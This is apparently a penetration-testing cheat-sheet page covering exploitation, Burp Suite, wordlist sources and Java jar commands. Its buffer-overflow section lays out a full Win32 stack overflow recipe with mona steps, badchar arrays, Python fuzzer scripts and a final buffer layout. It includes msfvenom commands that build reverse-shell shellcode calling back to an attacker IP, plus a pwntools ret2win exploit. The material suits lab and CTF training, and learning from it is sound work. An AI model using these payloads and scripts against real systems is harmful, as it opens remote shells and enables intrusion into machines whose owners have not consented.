

# Others

* [Exploiting](others.md#exploiting)
* [Burp](others.md#burp)
* [Jar usage](others.md#java-jar)
* [Pentesting tools map](others.md#tools-map)

## Exploiting

### Basics

```text
**Tools** 
https://github.com/apogiatzis/gdb-peda-pwndbg-gef
* gdb-peda
* gdb-gef
* pwndbg
* radare2
* ropper
* pwntools

# Web compiler
https://www.godbolt.org/
```

```text
# Check protections:
checksec binary
rabin2 -I ret2win32

# Functions
rabin2 -i 

# Strings
rabin2 -z ret2win32
```

### BOF Basic Win32

```text
1. Send "A"*1024
2. Replace "A" with /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l LENGTH
3. When crash "!mona findmsp" (E10.11.1.111 offset) or ""/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q TEXT" or "!mona pattern_offset eip"
4. Confirm the location with "B" and "C"
5. Check for badchars instead CCCC (ESP):
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
with script _badchars.py and 
"!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin"
    5.1 AWESOME WAY TO CHECK BADCHARS (https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/):
        a. !mona config -set workingfolder c:\logs\%p
        b. !mona bytearray -b "\x00\x0d"
        c. Copy from c:\logs\%p\bytearray.txt to python exploit and run again
        d. !mona compare -f C:\logs\%p\bytearray.bin -a 02F238D0 (ESP address)
        e. In " data", before unicode chars it shows badchars.
 6. Find JMP ESP with "!mona modules" or "!mona jmp -r esp" or "!mona jmp -r esp -cpb '\x00\x0a\x0d'" find one with security modules "FALSE"

    6.1 Then, "!mona find -s "\xff\xe4" -m PROGRAM/DLL-FALSE"
    6.2 Remember put the JMP ESP location in reverse order due to endianness: 5F4A358F will be \x8f\x35\x4a\x5f


7. Generate shellcode and place it:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.111 LPORT=4433 -f python –e x86/shikata_ga_nai -b "\x00"

msfvenom -p windows/shell_reverse_tcp lhost=10.11.1.111 lport=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f python -v shellcode

8. Final buffer like:
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

##############   sample 1 ################################################
#!/usr/bin/python

import socket,sys

if len(sys.argv) != 3:
    print("usage: python fuzzer.py 10.11.1.111 PORT")
    exit(1)

payload = "A" * 1000

ipAddress = sys.argv[1]
port = int(sys.argv[2])

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    print "Sending payload"
    s.send(payload)
    print "Done"
    s.close()
except:
    print "Error"
    sys.exit(0)

##############   sample 2 ################################################
#!/usr/bin/python
import time, struct, sys
import socket as so

try:
    server = sys.argv[1]
    port = 5555
except IndexError:
    print "[+] Usage %s host" % sys.argv[0]
    sys.exit()

req1 = "AUTH " + "\x41"*1072
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try:
     s.connect((server, port))
     print repr(s.recv(1024))
     s.send(req1)
     print repr(s.recv(1024))
except:
     print "[!] connection refused, check debugger"
s.close()
```

### Protections bypasses

```text
# NX - Execution protection
- Ret2libc
https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/
https://0x00sec.org/t/exploiting-techniques-000-ret2libc/1833
-ROP

# ASLR - Random library positions
- Memory leak to Ret2libc
- ROP

# Canary - Hex end buffer
https://0x00sec.org/t/exploit-mitigation-techniques-stack-canaries/5085
- Value leak
- Brute force
- Format Strings: https://owasp.org/www-community/attacks/Format_string_attack
```

### ROP

```text
checksec

# Listing functions imported from shared libraries is simple:          
rabin2 -i           

# Strings
rabin2 -z         

# Relocations
rabin2 -R 

# Listing just those functions written by the programmer is harder, a rough approximation could be:          
rabin2 -qs  | grep -ve imp -e ' 0 '          

RADARE2
------------------------------------------
r2 -AAA binary          # Analyze with radare2
afl                     # list functions
pdf @ funcion           # dissassemble function to check what instruction pointer want to reach
iz                      # Strings
is                      # Symbols
px 48 @ 0x00601060      # Hex dump address
dcu 0x00400809          # Breakpoint
    “press s”           # Continue over breakpoint
/R pop rdi              # Search instruction
/a pop rdi,ret          # Search

GDB
------------------------------------------
gdb-gef binary
pattern create 200
pattern search “lalal”
r                       # run
c                       # continue
s                       # step
si                      # step into
b *0x0000000000401850   # Add breakpoint
ib                      # Show breakpoints
d1                      # Remove breakpoint 1
d                       # Remove breakpoint
info functions          # Check functions
x/s 0x400c2f            # Examine address x/<(Mode)Format>  Format:s(tring)/x(hex)/i(nstruction) Mode:l/w


ROPGadget
------------------------------------------
https://github.com/JonathanSalwan/ROPgadget
ROPgadget --binary callme32 --only "mov|pop|ret"

Ropper
------------------------------------------
ropper --file callme32 --search "pop"

readelf -S binary # Check writable locations

x32
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %eax  | %ebx | %ecx | %edx | %esi | %edi | %ebp |

x64
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |

EXAMPLE
------------------------------------------

from pwn import *

# Set up pwntools to work with this binary
elf = context.binary = ELF('ret2win')
io = process(elf.path) 
gdb.attach(io)
info("%#x target", elf.symbols.ret2win)

ret2win = p64(elf.symbols["ret2win"])
payload = "A"*40 + ret2win
io.sendline(payload)
io.recvuntil("Here's your flag:")

# Get our flag!
flag = io.recvall()
success(flag)
```

## Burp

```text
- If Render Page crash:
sudo sysctl -w kernel.unprivileged_userns_clone=1

- Scope with all subdomains:
.*\.test\.com$

- Use Intruder to target specific parameters for scanning 
  - Right click: actively scan defined insertion points 

# Autorize Plugin
1. Login with lower user, get the cookie or token and paste in header inside Configuration tab.
2. In second browser, login with higher privilege user and start intercepting the requests of privilged functionality like admin-panel

# Configuration
- Project Options -> HTTP -> Redirections -> Enable JavaScript-driven
- User Options -> Misc -> Proxy Interception -> Always disabled
- Target -> Site Map -> Show all && Show only in-scope items
```

Extender plugins/bapps



## Dictionary creation

```text
Default creds:
https://cirt.net/passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
https://github.com/LandGrey/pydictor
https://github.com/Mebus/cupp
https://github.com/sc0tfree/mentalist
```

## Java jar

```text
Task    -    Command
Execute Jar    -    java -jar [jar]
Unzip Jar    -    unzip -d [output directory] [jar]
Create Jar    -    jar -cmf META-INF/MANIFEST.MF [output jar] *
Base64 SHA256    -    sha256sum [file] | cut -d' ' -f1 | xxd -r -p | base64
Remove Signing    -    rm META-INF/*.SF META-INF/*.RSA META-INF/*.DSA
Delete from Jar    -    zip -d [jar] [file to remove]
Decompile class    -    procyon -o . [path to class]
Decompile Jar    -    procyon -jar [jar] -o [output directory]
Compile class    -    javac [path to .java file]
```

## Tools stuff




